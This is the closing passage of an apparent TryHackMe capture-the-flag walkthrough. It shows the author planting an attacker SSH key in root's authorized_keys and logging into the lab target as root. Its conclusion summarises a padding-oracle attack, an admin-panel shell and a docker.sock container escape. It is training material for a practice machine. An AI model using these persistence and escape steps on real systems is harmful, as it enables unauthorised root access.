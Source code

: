 We can copy this public key to the target's authorized_keys file to enable our SSH private key to connect to the target as the root user using SSH.
```bash
root@2d31efe420e6:/# echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILNx1NlzW8fzlcrFsoMeGgcHy56OFUN0hNGKkGXx4f/c pentester@kali' >  /root/.ssh/authorized_keys
```

Now that the target's authorized_keys file is set, we can connect to the target using the private key we generated earlier.
```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/New York Flankees/Misc File]
└─$ ssh root@10.10.168.57 -i id_ed25519                                                        
Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 5.4.0-1029-aws x86_64)
<SNIP>                 
root@ip-10-10-168-57:~# whoami
root
root@ip-10-10-168-57:~# ls -a
.  ..  .bash_history  .bashrc  .cache  .profile  .ssh  .viminfo  snap
```

## Conclusion

Congratulations! In this walkthrough, you have exploited the Oracle padding attack to decrypt the admin user's credentials and use the admin platform to obtain a shell on a container running on the target. Finally, you escape the docker container by using the docker.sock socket present in the container. This machine was designed to show how inconsistent error handling could seriously impact an organisation's security posture. Thanks for following up on this walkthrough.

